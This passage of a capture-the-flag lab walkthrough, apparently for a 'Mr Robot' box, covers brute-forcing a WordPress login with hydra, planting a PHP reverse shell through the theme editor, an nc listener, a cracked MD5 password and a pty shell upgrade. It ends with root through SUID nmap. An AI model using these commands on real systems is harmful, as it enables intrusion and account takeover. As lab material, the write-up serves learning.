 	1. Testing the username on the form ourselves with a fake password we get a new message **Error The password you entered for the username Elliot**
	2. `hydra -l Elliot -P fsocity.dic -f 10.10.43.41 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username' -t 30`
	3. We will filter out all that contain the `The password you entered for the username`
	4. After a while we get the password of `ER28-0652`
4. Log in creds **Elliot:ER28-0652**
5. Signing in and we find the site is running WordPress 4.3.1
6. The account we are using has access to Appearance > Editor
	1. This allows us to change any page with PHP code so we can get a Reverse Shell
7. Started a listener with `rlwrap nc -lvnp 4444` 
8. We changed archives.php to have a Reverse Shell and navigated to it at `http://10.10.43.41/wp-content/themes/twentyfifteen/archive.php`
9. Shell opened


---

# Lateral Movement to user
## Local Enumeration
Starting as a Daemon and poking around files I found the second flag in `/home/robot/key-2-of-3.txt` but we can not open it yet. Also located in same directory was `password.raw-md5`.
Password file contained **robot:c3fcd3d76192e4007dfb496cca67e13b** putting that into a cracker and got **robot:abcdefghijklmnopqrstuvwxyz**

## Lateral Movement vector
Our current shell was non-interactive meaning commands such as `su` wont work. We need to first make are shell interactive we can do so with python using `python -c 'import pty;pty.spawn("/bin/bash")'`. This command first we put -c which tells python to pass in as a string. Next we import pty which is a module that defines operations for handling the pseudo-terminal concept: starting another process. Then we use "pty.spawn" to start a shell using bash.

Once that is all done we now have an interactive shell. This shell allows us to change to the user robot using the password we found in the enumeration.

---

# Privilege Escalation
## Local Enumeration
Checked for files with the SUID tag on them once found noticed that `nmap` was one of the commands with the SUID tag.

## Privilege Escalation vector
Checking GTFObin found that `nmap` can be used to spawn a shell using `nmap --interactive` > `!sh`. This will enter us into the interactive mode to talk directly to nmap then spawn a shell from that since nmap has the SUID tag this shell runs as root thus giving us root access.
